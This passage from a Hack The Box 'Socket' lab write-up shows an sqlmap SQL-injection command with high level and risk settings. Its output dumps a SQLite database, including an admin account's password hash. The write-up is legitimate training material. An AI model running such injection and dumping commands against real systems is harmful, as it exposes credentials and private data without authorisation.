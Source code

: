```bash
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+

<...snip...?
```

I can now dump each table on its own and go slowly. Or because its a HTB challenge and the tables won't contain much, I can immediately dump all tables at once.:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.7#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<...snip ...>
[18:22:31] [WARNING] no clear password(s) found
Database: <current>
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

[18:22:31] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/users.csv'
[18:22:31] [INFO] fetching columns for table 'versions'
[18:22:31] [INFO] fetching entries for table 'versions'
Database: <current>
Table: versions
[2 entries]
+----+---------+-----------+---------------+
| id | version | downloads | released_date |
+----+---------+-----------+---------------+
| 1  | 0.0.1   | 280       | 12/07/2022    |
| 2  | 0.0.2   | 720       | 26/09/2022    |
+----+---------+-----------+---------------+

[18:22:31] [INFO] table 'SQLite_masterdb.versions' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/versions.csv'
[18:22:31] [INFO] fetching columns for table 'sqlite_sequence'
[18:22:32] [INFO] fetching entries for table 'sqlite_sequence'
Database: <current>
Table: sqlite_sequence
[5 entries]
+-----+----------+
| seq | name     |
+-----+----------+
| 2   | versions |
| 1   | users    |
| 2   | info     |
| 2   | reports  |
| 2   | answers  |
+-----+----------+

```